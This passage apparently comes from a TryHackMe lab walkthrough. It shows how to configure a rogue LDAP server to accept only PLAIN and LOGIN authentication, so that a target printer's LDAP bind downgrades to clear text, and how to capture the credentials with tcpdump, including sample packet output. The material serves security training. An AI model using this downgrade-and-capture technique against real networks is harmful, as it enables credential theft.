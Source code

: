 The file has the following properties:

- **olcSaslSecProps:** Specifies the SASL security properties
- **noanonymous:** Disables mechanisms that support anonymous login
- **minssf:** Specifies the minimum acceptable security strength with 0, meaning no protection.

Now we can use the ldif file to patch our LDAP server using the following:

```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

We can verify that our rogue LDAP server's configuration has been applied using the following command:

```bash
                                                      LDAP search to verify supported authentication mechanisms 

$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN
```

**Capturing LDAP Credentials**

Our rogue LDAP server has now been configured. When we click the "Test Settings" at http://printer.za.tryhackme.com/settings.aspx, the authentication will occur in clear text. If you configured your  rogue LDAP server correctly and it is downgrading the communication, you will receive the following error: "This distinguished name contains  invalid syntax". If you receive this error, you can use a tcpdump to  capture the credentials using the following command:

```bash
                                                                               TCPDump
$ sudo tcpdump -SX -i eth0 tcp port 389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth1, link-type EN10MB (Ethernet), snapshot length 262144 bytes
10:41:52.979933 IP 10.10.10.201.49834 > 10.10.10.57.ldap: Flags [P.], seq 4245946075:4245946151, ack 1113052386, win 8212, length 76
	0x0000:  4500 0074 b08c 4000 8006 20e2 0a0a 0ac9  E..t..@.........
	0x0010:  0a0a 0a39 c2aa 0185 fd13 fedb 4257 d4e2  ...9........BW..
	0x0020:  5018 2014 1382 0000 3084 0000 0046 0201  P.......0....F..
	0x0030:  0263 8400 0000 3d04 000a 0100 0a01 0002  .c....=.........
	0x0040:  0100 0201 7801 0100 870b 6f62 6a65 6374  ....x.....object
	0x0050:  636c 6173 7330 8400 0000 1904 1773 7570  class0.......sup
	0x0060:  706f 7274 6564 5341 534c 4d65 6368 616e  portedSASLMechan
	0x0070:  6973 6d73                                isms
10:41:52.979938 IP 10.10.10.57.ldap > 10.10.10.201.49834: Flags [.], ack 4245946151, win 502, length 0
	0x0000:  4500 0028 247d 4000 4006 ed3d 0a0a 0a39  E..($}@.@..=...9
	0x0010:  0a0a 0ac9 0185 c2aa 4257 d4e2 fd13 ff27  ........BW.....'
	0x0020:  5010 01f6 2930 0000                      P...)0..
10:41:52.980162 IP 10.10.10.57.ldap > 10.10.10.201.49834: Flags [P.], seq 1113052386:1113052440, ack 4245946151, win 502, length 54
	0x0000:  4500 005e 247e 4000 4006 ed06 0a0a 0a39  E..^$~@.@......9
	0x0010:  0a0a 0ac9 0185 c2aa 4257 d4e2 fd13 ff27  ........BW.....'
	0x0020:  5018 01f6 2966 0000 3034 0201 0264 2f04  P...)f..04...d/.
	0x0030:  0030 2b30 2904 1773 7570 706f 7274 6564  .0+0)..supported
	0x0040:  5341 534c 4d65 6368 616e 6973 6d73 310e  SASLMechanisms1.
	0x0050:  0405 504c 4149 4e04 054c 4f47 494e       ..PLAIN..LOGIN
[....]
10:41:52.987145 IP 10.10.10.201.49835 > 10.10.10.57.ldap: Flags [.], ack 3088612909, win 8212, length 0
	0x0000:  4500 0028 b092 4000 8006 2128 0a0a 0ac9  E..(..@...!(....
	0x0010:  0a0a 0a39 c2ab 0185 8b05 d64a b818 7e2d  ...9.......J..~-
	0x0020:  5010 2014 0ae4 0000 0000 0000 0000       P.............
```